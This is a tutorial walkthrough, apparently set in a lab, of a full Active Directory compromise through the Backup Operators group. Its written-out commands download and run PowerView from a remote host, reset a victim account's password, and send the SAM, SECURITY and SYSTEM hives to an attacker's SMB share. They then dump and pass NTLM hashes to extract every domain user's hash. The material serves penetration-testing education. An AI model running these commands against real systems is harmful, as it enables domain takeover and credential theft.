










Introduction
What is the Backup Operators Group?
This group is automatically created when an Active Directory environment is installed, and it contains features that are useful for an attacker in reaching the Domain Controller. The key capability of this group is that it allows its members to back up any file regardless of that file's permissions -- whether the file is readable or not. The three files we are interested in are: SAM, SECURITY, and SYSTEM.
In this article, we will follow a specific scenario rather than just executing the technique and ending the article.
Walkthrough

Step 1: Initial Access
First, we have obtained a reverse shell session on the user jehad.
Now let us check what ACLs or capabilities the user jehad has.

Step 2: Load PowerView
We will load the PowerView tool into memory using the following command:
iex(iwr http://192.168.100.112/powerview.ps1 -usebasicparsing)

Step 3: Identify Backup Operators Group Members
Now we will run the following command to see which users are members of the Backup Operators group:
Get-DomainGroupMember -identity "Backup Operators"
We can see that the user muhammed is a member of the Backup Operators group.

Step 4: Enumerate ACLs for Privilege Paths
Now let us check whether the user jehad has any permissions over the user muhammed, such as the ability to change their password or something similar.
We will run the following command to see the acquired privileges for each user:
Find-InterestingDomainAcl
Looking at the results, we can see that the user jehad has Extended Right permissions over the user muhammed. This means we can change the password for the user muhammed.
If you are not fully familiar with ACLs, refer to the article: Abusing Active Directory ACLs/ACEs.


Step 5: Change the Target User's Password
Now we will execute the following commands to change the password for the user muhammed:
$SecureString = ConvertTo-SecureString -String "Tester12345#!!" -AsPlainText -Force
Set-DomainUserPassword -identity muhammed -AccountPassword $SecureString -domain vulnerable.com

Step 6: Use BackupOperatorToDA to Extract Critical Files
Now that we have changed the password of the user muhammed, who is a member of the Backup Operators group, we will use the BackupOperatorToDA script.
Before using the tool, open an SMB server because we will transfer the SAM, SECURITY, and SYSTEM files to it:
python /usr/share/doc/python3-impacket/examples/smbserver.py jehad . -smb2support
The tool's parameters are as follows:
- -t -- the name of the Domain Controller machine
- -o -- the path to the SMB server that was started previously
- -u -- the username of the user in the Backup Operators group, which is muhammed
- -p -- the password for the user muhammed
- -d -- the domain name, which is vulnerable.com
So the final command will be:
.\BackUp.exe -t \\dc.vulnerable.com -o \\192.168.100.112\jehad\ -u muhammed -p Tester12345#!! -d vulnerable.com
The three critical files have now been transferred to our SMB share.

Step 7: Extract NTLM Hashes from the Backup Files
These files will help us extract the NTLMv1 hash of the Domain Controller. We use the secretsdump tool with the following command:
/usr/bin/impacket-secretsdump LOCAL -sam SAM -system SYSTEM -security SECURITY
The NTLM hash of the Domain Controller has now been extracted.

Step 8: Dump All Domain User Hashes
Now we will pass the NT hash to the secretsdump tool along with the Domain Controller name so it extracts all users in the Active Directory environment along with their hashes from the NTDS file:
/usr/bin/impacket-secretsdump VULNERABLE.COM/'dc$'@dc.vulnerable.com -hashes ':1836d9e3263fb4973cff3bed243849be'
This completes the full domain compromise, starting from a user with Extended Right over a Backup Operators member, all the way to extracting every user's NTLM hash in the domain.
